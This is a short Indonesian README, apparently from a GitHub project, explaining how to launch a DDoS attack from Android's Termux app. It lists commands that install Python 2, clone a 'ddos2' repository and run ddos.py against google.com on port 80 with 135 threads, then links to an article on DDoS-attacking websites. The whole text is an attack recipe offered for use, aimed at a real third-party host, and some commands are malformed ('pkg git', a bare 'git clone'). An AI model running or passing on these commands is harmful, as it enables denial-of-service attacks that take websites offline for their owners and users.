 Menggunakan DDOS dengan termux bye Kumpulan Remaja

kode perintah 

pkg update && pkg upgrade
pkg git 
pkg python2
git clone
git clone https://github.com/kumpulanremaja/ddos2 
cd ddos2
python2 ddos.py -s google.com -p 80 -t 135 

supaya lebih jelas bisa baca artikel Cara DDOS Attack Website dengan Termux di Android dengan link di bawah ini

https://www.kumpulanremaja.com/2019/08/cara-ddos-attack-website-dengan-termux.html
